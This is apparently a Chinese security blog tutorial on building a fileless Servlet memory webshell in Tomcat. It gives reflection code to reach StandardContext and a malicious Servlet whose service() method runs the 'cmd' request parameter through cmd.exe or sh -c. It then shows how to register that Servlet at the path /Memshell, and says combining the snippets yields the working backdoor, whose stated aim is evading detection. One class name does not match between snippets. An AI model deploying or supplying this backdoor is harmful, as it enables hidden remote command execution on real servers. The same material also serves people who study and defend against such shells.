

内存马简介
内存马，顾名思义，在内存中运行，这种内存马实现方式不需要在磁盘上存储 .class文件。相对于传统的需要文件落地的webshell，更加难被设备检测到。对于Servlet内存马的实现思路是自己写一个恶意的类，然后按照tomcat注册Servlet的步骤，自己注册Servlet，绑定到一个路径上，就执行自定义的恶意类代码。
Servlet简介
Java Web 开发中常用的三大组件Listener、Filter 和 Servlet，它们分别用于监听应用程序事件、过滤请求/响应、处理客户端请求。
当一个请求进入服务器，他们的加载顺序：Listener->Filter->Servlet
Servlet内存马实现
在这里主要记录一下Servlet类型的内存马，既然研究Servlet内存马，那就先了解一下Servlet的创建流程
1.获取StandardContext对象
2.编写恶意Servlet
3.通过StandardContext.createWrapper()创建StandardWrapper对象
4.设置StandardWrapper对象的各属性值
5.将StandardWrapper对象添加进StandardContext对象的children属性中
6.通过StandardContext.addServletMappingDecoded()添加对应的路径映射
介绍当然不是白介绍的，前面提到了，要按照tomcat注册Servlet的步骤，自己注册Servlet，下面就按照上述过程实现
获取StandardContext对象
写一个jsp，先获取当前 HTTP 请求的 ServletContext 对象，然后输出这个对象，下一个断点

借助IDEA给出的信息，能帮助我们理解如何一步一步的获取到StandardContext对象
首先获取当前 HTTP 请求的 ServletContext 对象
1
| ServletContext servletContext=request.getServletContext();
|
然后反射获取ServletContext类对象的context字段的值，这实际上是 ApplicationContext 对象。
1
2
3
| Field applicationContextField = servletContext.getClass().getDeclaredField("context");
applicationContextField.setAccessible(true);
ApplicationContext applicationContext= (ApplicationContext)applicationContextField.get(servletContext);
|
跟进刚才给出的调试信息，可以知道，如果想获取StandardContext对象，还得借助刚刚得到的ApplicationContext 对象再反射一次
1
2
3
| Field standardContextField = applicationContext.getClass().getDeclaredField("context");
standardContextField.setAccessible(true);
StandardContext context= (StandardContext)standardContextField.get(applicationContext);
|
ok，到这就有了。但是我看文章还给出了另一种获取StandardContext对象的方法，代码写在下面：
1
2
3
4
| Field reqF = request.getClass().getDeclaredField("request");
reqF.setAccessible(true);
Request req = (Request) reqF.get(request);
StandardContext standardContext = (StandardContext) req.getContext();
|
这种方法直接从 Request 对象获取 StandardContext，通常适用于在处理请求时直接访问上下文。但是这种方法依赖于 request 对象的内部实现，可能在不同版本的 Tomcat 中有所不同。比较简洁，但是不如上一种健壮。
写恶意Servlet
应当知道，当浏览器访问Servlet的时候，Servlet会调用service()法处理请求
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
| <%!
public class Shell_Servlet implements Servlet {
@Override
public void init(ServletConfig config) throws ServletException {
}
@Override
public ServletConfig getServletConfig() {
return null;
}
@Override
public void service(ServletRequest req, ServletResponse res) throws ServletException, IOException {
String cmd = req.getParameter("cmd");
if (cmd != null) {
try {
String osName = System.getProperty("os.name").toLowerCase();
String[] cmds;
if (osName.contains("win")) {
cmds = new String[]{"cmd.exe", "/c", cmd};
} else {
cmds = new String[]{"sh", "-c", cmd};
}
Runtime.getRuntime().exec(cmds);
} catch (IOException e) {
e.printStackTrace();
} catch (NullPointerException n) {
n.printStackTrace();
}
}
}
@Override
public String getServletInfo() {
return null;
}
@Override
public void destroy() {
}
}
%>
|
创建Wrapper对象
Wrapper简介：Wrapper是一个Servlet的包装器，它可以将一个Servlet包装成一个独立的组件，并提供了一些额外的功能。Wrapper可以处理Servlet的生命周期、访问控制、安全、会话管理等。一个Context可以包含多个Wrapper，每个Wrapper都对应一个Servlet。
1
2
3
4
5
|
Wrapper wrapper = context.createWrapper();
wrapper.setName("MemServlet");
wrapper.setServletClass(MemServlet.class.getName());
wrapper.setServlet(new MemServlet());
|
添加到StandardContext
在Tomcat中，StandardContext 是 Context 接口的一个具体实现，它负责表示一个Web应用程序的运行上下文。每个Web应用在Tomcat中都由一个 StandardContext 来管理，它负责处理整个Web应用的生命周期，包括加载Servlet、管理Session、处理请求和响应等。
1
2
| context.addChild(wrapper);
context.addServletMappingDecoded("/Memshell","MemServlet");
|
把上面几部分代码组合起来，就是Servlet内存马了